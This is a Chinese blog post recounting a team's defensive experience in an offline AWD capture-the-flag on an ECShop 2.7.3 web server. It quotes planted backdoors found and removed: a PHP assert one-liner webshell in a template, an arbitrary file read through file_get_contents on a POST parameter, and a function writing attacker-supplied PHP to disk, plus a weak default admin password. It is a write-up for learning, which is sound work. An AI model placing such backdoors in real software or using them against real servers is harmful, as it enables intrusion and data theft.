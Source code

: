 ```yaml
---
layout: post
title: 线下AWD被打指南
subtitle: 
author: Coink
date: 2018-05-02
categories:
tag:
- Tech
---
```




# 概

前几天跑去玩了玩安恒的线下AWD，被很多大佬吊打（物理）。

![8849DB6CD4B9AEF5EED512322700E7A1.jpg](https://i.loli.net/2019/06/03/5cf48131d9d2363717.jpg)



简单分析一下本次AWD的内容，顺便总结一下AWD要注意的一些事项。这次是比较基础的AWD，没有pwn，只有Web。

# Start

比赛开始拿到自己机器，不是root权限，写文件有限制。Web服务是ECShop V2.7.3，AngelSword里查了一下，发现两个漏洞，但是都没有成功复现：

![poc.png](https://i.loli.net/2018/05/05/5aed16e2be14f.png)

己方服务器ip是10.50.20.2，推测出所有靶机地址，10.50.[1-37].2，10.50.0.2可能为NPC机。

提交和获取Flag都需要带上团队Token：

```url
//获取flag
http://10.0.1.2?token=XXXXXXXX
```

```url
//提交flag
https://192.168.37.180/match/WAR20/oapi?atn=answers&token=XXXXXXXX&flag=flag{}
```

赶紧把var/www/html拷贝了一份到本地，（由于经验不足，没有想办法备份数据库，导致后面的惨剧 ，嘤）同时打开D盾扫Shell，主办方的shell藏得挺好的，D盾扫不到。

waf装上去之后服务瞬间爆炸，赶紧恢复备份，还好check是从20分钟开始的，没有被扣分。

本次比赛时间很紧，总共只有3h。前半个多小时大家和平发育，除了几个队伍可能自己玩坏了自己服务，或者战略关闭服务器之外，没有任何一支队伍成功攻击。

# php一句话

40分钟时，主办方给出第一个提示：

![tip1.png](https://i.loli.net/2018/05/05/5aed1c57651ca.png)

dwt是未渲染的模板文件，跟进发现：

```html
<div class="con">{:assert($_POST[1])}
...
</div>
```

删掉即可。

# 文件读取

1h多时主办方直接在tips里给了exp...

![exp1.png](https://i.loli.net/2018/05/05/5aed3b5f2109b.png)

定位:

![sr32.png](https://i.loli.net/2018/05/05/5aed3b8488af7.png)

```php
switch ($row['media_type']) {
	//...
	case 4: // url
		$ads[] = file_get_contents($_POST['url']);
}
```

发现任意文件读取，因为参数本身就是url，且不清楚check的规则是什么，暂且直接删掉。



# new exp

距离上次exp不到10分钟，又给了一个攻击流量，漏洞就是第一个放出来的auction_list模板内的一句话。

![exp.png](https://i.loli.net/2018/05/05/5aed3dd28672b.png)

删掉那句后门就行了。



# 文件写入

新提示

![write.png](https://i.loli.net/2018/05/05/5aed3ef499a3b.png)

之前在AngelSword见到了uc的注入，但是不是mobile下的，对比mobile下和api下的uc.php：

![sp180505_132349.png](https://i.loli.net/2018/05/05/5aed3ff377dcc.png)

发现多了一个writesth函数：

```php
function writesth($get, $post){
    $cachefile = $this->appdir .$get['name'];
    $fp = fopen($cachefile, 'w');
    $s = "<?php\r\n";
    $s .= $get['content'];
    fwrite($fp, $s);
    fclose($fp);
    return API_RETURN_SUCCEED;
}
```

name和content均可控，直接写入即可，注意写入权限。

# 惨遭删库

最后一小时主办方给出最后一个提示

![sp180505_133044.png](https://i.loli.net/2018/05/05/5aed418e963cd.png)

但是这时候我们发现自己的网站凉了...

![惨遭删库.png](https://i.loli.net/2018/05/05/5aed4219cf905.png)

心里咯噔一下，数据库炸了？检查一下数据库发现...给人删库了...没备份数据库...naive了呀...目测是排名跟我们相近的队伍发现了SQL注入，把做了防御，他们队拿不到分的机器给炸了，一方面减缓高分队伍得分速度，另一方面让我们每5分钟扣100分。当时真的是想掏个emp啥的出来来一发无差别攻击...

现在回想起来，如果当时是有权限删除data目录文件的话，删掉lock文件，就可以重新安装cms，或者找到structure.sql也能恢复数据库了，当时手忙脚乱的没反应过来，果然还是太菜...

BTW，看了@一叶飘零 的wp，得知弱口令是admin888，发现我们字典里刚好没有...

复现环境之后再找找其他洞，找到会更新（2019.06.03更新："咕"）。
